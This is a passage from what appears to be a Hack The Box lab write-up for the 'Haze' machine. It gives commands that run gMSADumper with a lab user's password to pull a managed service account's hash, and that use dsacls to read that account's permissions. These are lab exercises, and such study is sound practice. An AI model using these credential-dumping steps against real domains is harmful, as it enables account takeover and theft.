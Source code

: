 ![](images/media/image25.png){width="6.3in"
height="1.2361111111111112in"}

**15.7** INFO: Try reading Password, see STEP 15.2

**[IMPORTANT: This command has to been run, so that STEP 19.1 works
out]{.mark}**

**RUN:** **python gMSADumper.py -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb**

![](images/media/image26.png){width="6.3in"
height="0.9416666666666667in"}

**Even though I got the hash value, I couldn\'t connect to port 5985**

**16.** INFO: **Verify** that mark.adams has **WRITE PERMISSION**.

This views ACL ACCESS CONTROL LIST of Backup

**RUN loggedin with POWERSHELL:** **dsacls
\"CN=HAZE-IT-BACKUP,CN=MANAGED SERVICE ACCOUNTS,DC=HAZE,DC=HTB\"**

![](images/media/image27.png){width="6.3in"
height="3.310416666666667in"}
